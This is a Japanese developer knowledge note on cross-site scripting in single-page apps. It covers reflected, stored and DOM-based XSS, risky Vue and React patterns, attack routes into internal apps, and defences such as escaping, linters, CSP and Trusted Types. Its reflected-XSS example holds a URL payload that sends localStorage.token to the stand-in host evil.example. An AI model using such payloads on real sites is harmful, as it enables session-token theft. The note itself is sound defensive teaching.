


# XSS（クロスサイトスクリプティング）

## 概要

XSS は、攻撃者が用意したスクリプトを、**自分のサイトのオリジンで実行させる攻撃**。
SPA でトークンをどこに置くかの議論は、ほぼすべて「XSS が起きたら何を取られるか」という話になる。

関連:

- [SPA のトークンの置き場所](spa-token-storage.md)
- [HttpOnly クッキー](httponly-cookie.md)
- [SPA の認証構成パターン](spa-auth-architecture.md)

## なぜ危険か

ブラウザはスクリプトを「誰が書いたか」ではなく「どのオリジンで動いているか」で信頼する。
`https://app.example.com` の上で動くスクリプトは、自分で書いたコードでも攻撃者のコードでも同じ権限を持ち、ブラウザには見分けがつかない。

| できること | できないこと |
|---|---|
| localStorage・sessionStorage・HttpOnly でないクッキーを読んで外部へ送る | HttpOnly クッキーを読む |
| 利用者として API を呼ぶ（HttpOnly クッキーでも、`fetch` すれば自動で付く） | 他のオリジンのデータを読む（CORS で許可されていない限り） |
| 画面に表示中の個人情報を読む | タブを閉じた後も動き続ける（トークンを持ち出していない限り） |
| 偽のログインフォームを出す、画面を書き換える、キー入力を盗む | |
| OAuth のフローを自分で走らせて新しいトークンを取る（ブラウザで OAuth クライアントを動かしている場合） | |

右の列が、トークンを HttpOnly クッキーの向こう（サーバー側）に隠すと被害が小さくなる理由になっている。

## 種類

### 1. 反射型

URL などの入力を、サーバーがそのままレスポンスの HTML に埋め込んでしまうもの。

```
https://example.com/search?q=<script>fetch('https://evil.example/?t='+localStorage.token)</script>
```

サーバーが `検索結果: <script>...` のように返すと、そのページを開いた人のブラウザで実行される。攻撃者はこのリンクをメールやチャットで踏ませる。

### 2. 保存型（格納型）

攻撃のコードが DB に保存され、そのデータを表示した全員のブラウザで実行されるもの。コメント欄やプロフィール欄がよく狙われる。
リンクを踏ませる必要がなく、管理者も含めて多くの人に当たるので、被害が最も大きくなりやすい。



### 3. DOM ベース（SPA で一番気にすべき種類）

サーバーは関係せず、**フロントの JS が、信用できない値を危険な場所に書き込む**ことで起きる。

- 値の出どころ（ソース）: `location.search`、`location.hash`、`document.referrer`、`postMessage`、API のレスポンス、ストレージ
- 危険な書き込み先（シンク）: `innerHTML`、`outerHTML`、`insertAdjacentHTML`、`document.write`、`eval`、`new Function`、`setTimeout('文字列')`、`location.href`、`a.href`、`iframe.src`

```ts
// 危険: URL のハッシュをそのまま HTML として差し込んでいる
const name = decodeURIComponent(location.hash.slice(1));
document.getElementById('greeting')!.innerHTML = `ようこそ、${name} さん`;
```

`https://app.example.com/#` を開かせると、スクリプトが実行される。

- `innerHTML` で差し込んだ `<script>` タグは実行されない。しかし `` のようなイベント属性は実行される。「`<script>` を除けば安全」ではない
- `#` 以降はサーバーに送られないので、サーバーのログや WAF では検知できない
- 直し方は `innerHTML` を `textContent` に変えるだけ

### 番外: サプライチェーン攻撃

厳密には XSS ではないが、結果は同じ。npm パッケージや CDN のスクリプトが乗っ取られると、悪意のあるコードが自分のオリジンで動く。

- 2024 年の polyfill.io: CDN のドメインが買収され、読み込んでいたサイトに悪意のあるコードが配信された
- 2025 年: chalk や debug などの有名な npm パッケージが乗っ取られ、ブラウザ上で暗号資産を盗むコードが混入された

ブラウザから見れば自分のコードと区別がつかず、CSP でも、バンドルに入ってしまったコードは止められない。

## Vue や React でも起きる書き方

Vue・React・Angular は、`{{ value }}` や `{value}` のようなテキストの埋め込みを自動でエスケープするので、古典的な反射型・保存型の多くは防げる。
ただし、**フレームワークの保護から外れる書き方**をすると起きる。

| 危ない書き方 | 例 |
|---|---|
| HTML をそのまま描画する | Vue の `v-html`、React の `dangerouslySetInnerHTML`、Angular の `bypassSecurityTrustHtml` |
| URL 属性に利用者の値を入れる | `<a :href="user.website">` に `javascript:alert(1)` を入れられる |
| Markdown を HTML に変換して描画する | marked などの出力を `v-html` に渡す |
| URL パラメータで遷移先を決める | `location.href = params.get('next')` に `?next=javascript:...` を渡される |
| `postMessage` を送信元を確認せずに処理する | 別のサイトから送られたメッセージを `innerHTML` に入れる |
| DOM を直接触る | `el.innerHTML = ...` や jQuery の `.html()` |
| 文字列からコードを作る | `eval`、`new Function` |

`javascript:` の URL は、フレームワークによって警告やブロックがあるが、URL の検証は自分でやるほうが確実。

## 社内アプリでの経路（IP 制限や SSO で防げないもの）

社外の攻撃者は社内アプリに直接アクセスできない。それでも、攻撃コードを届ける経路はある。

| 経路 | 例 | IP 制限・SSO で防げるか |
|---|---|---|
| 社外から来たデータを表示する | 問い合わせフォームの内容、メールの本文、取引先から取り込んだ CSV、外部システムとの連携データ | 防げない。データは正規の経路で入ってくる |
| 細工したリンクを踏ませる | メールやチャットで送られた社内アプリの URL（パラメータや `#` 以降に攻撃コード） | 防げない。開くのは社内にいる被害者 |
| 社員が入力したデータ | 悪意のある社員、乗っ取られたアカウント | 防げない |
| 共通 UI ライブラリの部品 | HTML をそのまま受け取るツールチップ、表のセル、通知 | 防げない。**全アプリに影響する** |
| 依存パッケージ | npm パッケージの乗っ取り | 防げない。**全アプリに影響する** |
| 外部スクリプト | アクセス解析のタグ、CDN から読み込むライブラリ、チャットウィジェット | 防げない |
| 同じオリジンの別アプリ | Front Door などで複数のアプリを同じドメインのパス（`/app-a`、`/app-b`）に振り分けている | 防げない。localStorage はオリジン単位なので、いちばん弱いアプリの XSS で全アプリのトークンが読める |

「社外から来たデータ」は社内アプリで見落とされがち。一般公開の問い合わせフォームに書かれた攻撃コードが、社内の管理画面で表示された瞬間に動く、という形になる。

攻撃コードは**社内にいる被害者のブラウザの中で**動くので、IP 制限も SSO も通過した状態で、正規の利用者として API を呼べる。トークンを持ち出す必要すらない。



最後の「社外へ送る」は、CSP の `connect-src 'self'` である程度止められる。

## 対策

### 1. 出力する場所に合わせてエスケープする（根本対策）

**入力時にタグを消す**のではなく、**出力する場所に合わせて**安全にする。同じ文字列でも、HTML の本文、属性、URL、JS の中では危険な文字が違うため。

- テキスト: フレームワークの埋め込みか `textContent` を使う
- HTML をどうしても描画する場合: DOMPurify でサニタイズ（危険なタグや属性を取り除く処理）してから描画する
- URL: スキームを検証する

```ts
// http / https 以外の URL（javascript: など）は使わない
export function safeUrl(value: string): string | undefined {
  try {
    const url = new URL(value, location.origin);
    return url.protocol === 'http:' || url.protocol === 'https:' ? url.href : undefined;
  } catch {
    return undefined;
  }
}
```

ログイン後の戻り先のような遷移先は、同じオリジンの相対パスだけを許可する。

### 2. 危ない書き方をリンターで止める

- `vue/no-v-html`（Vue）
- `react/no-danger`（React）
- `eslint-plugin-no-unsanitized`（`innerHTML` などの直接操作）

共通 UI ライブラリやアプリのテンプレートを配布しているなら、ESLint の設定に入れてエラーにしておくと、全アプリに効く。

### 3. CSP で「実行させない」「持ち出させない」

CSP（Content Security Policy）は、ページで実行してよいスクリプトや通信先をブラウザに指示するヘッダー。**仮に HTML が差し込まれても、スクリプトが動かない**状態を作れる。

Vite などでビルドした静的な SPA は、スクリプトがすべて外部ファイルになり、インラインスクリプトが無いので、厳しい CSP を簡単に書ける。

```
Content-Security-Policy:
  default-src 'self';
  script-src 'self';
  connect-src 'self';
  img-src 'self' data:;
  style-src 'self' 'unsafe-inline';
  object-src 'none';
  base-uri 'none';
  frame-ancestors 'none'
```

| 指定 | 効果 |
|---|---|
| `script-src 'self'` | インラインスクリプトや `onerror` 属性が動かなくなる。上の `` もこれで無力化できる。`'unsafe-inline'` と `'unsafe-eval'` は付けない |
| `connect-src 'self'` | 攻撃者のサーバーへの `fetch` を止められる。画面遷移を使った持ち出しまでは防げないので完全ではない |
| `object-src 'none'`、`base-uri 'none'` | CSP を回避する抜け道を塞ぐ |
| `frame-ancestors 'none'` | XSS ではないが、クリックジャッキング（他サイトの iframe に埋め込んで操作させる攻撃）を防ぐ |
| `style-src 'unsafe-inline'` | 多くの UI ライブラリがスタイルを動的に差し込むので、スタイルは緩めることが多い |

付け方:

- nginx: `add_header Content-Security-Policy "..." always;`（location に `add_header` があると server の分を引き継がないので注意。[Easy Auth の中継](../azure/easy-auth-token-relay.md)を参照）
- CloudFront: レスポンスヘッダーポリシーで設定する。S3 だけでは CSP ヘッダーを付けられない
- HTML の `<meta http-equiv="Content-Security-Policy">` でも設定できるが、`frame-ancestors` などは効かない
- MSAL.js のようにブラウザから IdP と通信する場合は、`connect-src` に `https://login.microsoftonline.com` などを足す

導入するときは、まず `Content-Security-Policy-Report-Only` で違反を観察してから、本番で有効にする。

### 4. Trusted Types（発展）

CSP に `require-trusted-types-for 'script'` を加えると、`innerHTML` などに素の文字列を代入するとエラーになる。危険な書き込み先には、必ずサニタイズ用の関数を通すことを強制できる。
Chromium 系のブラウザで使え、他のブラウザも対応が進んでいる（使う前に対応状況を確認する）。

### 5. 依存パッケージと外部スクリプトを絞る

- 外部の CDN からスクリプトを読み込まず、バンドルに含める。どうしても読み込む場合は `integrity` 属性（SRI: 内容が変わっていないかのハッシュ検証）を付ける
- アクセス解析やチャットなどの外部タグは、サイトと同じ権限で動くので、必要最小限にする
- lockfile を使って `npm ci` でインストールし、Dependabot や Renovate で更新を管理する。新しいパッケージは追加する前に確認する

### 6. 起きたときの被害を小さくする

- トークンを HttpOnly クッキーの向こうに置く（BFF）。詳しくは [SPA の認証構成パターン](spa-auth-architecture.md)
- トークンを短命にし、リフレッシュトークンをローテーションする
- 重要な操作（支払い・設定変更など）では再認証を求める

## 優先順位

1. **フレームワークの保護から外れる書き方をしない**。`v-html` などを避け、URL を検証する
2. **CSP を入れる**。静的な SPA なら `script-src 'self'` がすぐ書けて、効果も大きい
3. **依存パッケージと外部スクリプトを絞る**
4. **トークンの置き場所で被害を限定する**

## 自分のアプリで確かめる

入力欄・URL パラメータ・`#` 以降に `` を入れて、画面に描画される箇所でアラートが出ないかを見るのが手軽。
CSP を入れた後は、ブラウザの開発者ツールのコンソールに違反が出ていないかも確認する。

## 参考

- [OWASP Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP DOM based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [MDN: コンテンツセキュリティポリシー (CSP)](https://developer.mozilla.org/ja/docs/Web/HTTP/CSP)
